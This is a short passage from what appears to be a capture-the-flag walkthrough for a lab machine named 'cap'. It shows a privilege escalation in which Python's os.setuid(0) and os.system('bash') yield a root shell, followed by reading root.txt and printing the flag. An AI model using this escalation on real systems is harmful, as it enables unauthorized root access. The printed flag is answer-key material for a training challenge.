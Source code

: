 ```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("bash")
root@cap:~# 
```
<div style="text-align: center;">
    <b><span style="color: #98FB98;">ROOT FLAG</span></b>
    <br>
    ---------------------------
</div>
 --------------------------

```bash
root@cap:~# cd /root    
root@cap:/root# dir
root.txt  snap
root@cap:/root# cat root.txt 
c7ff6bc160eebd656cbef4eea5eb056a
```